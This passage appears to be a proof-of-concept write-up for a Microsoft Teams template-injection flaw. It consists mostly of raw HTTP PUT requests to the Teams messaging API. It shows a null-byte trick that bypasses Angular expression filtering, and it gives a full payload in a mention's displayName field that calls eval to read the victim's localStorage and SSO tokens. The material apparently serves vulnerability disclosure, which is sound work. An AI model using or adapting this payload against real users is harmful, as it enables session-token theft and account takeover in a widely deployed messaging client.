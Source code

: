 
The request should look something like this, note `displayName`:

```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot\"}]"}}
```

angular expression filtering can be bypassed by injecting a nullbyte char in unicode `\u0000`, e.g. 

```
{{3*333}\u0000}
```  

To access user's local storage and all SSO tokens, use this payload within `displayName` in the above HTTP PUT request.

```
{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

Full HTTP request for SSO token logging:
```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: skypetoken=...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof onetime==`undefined`){onetime=1;console.log(localStorage);}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```
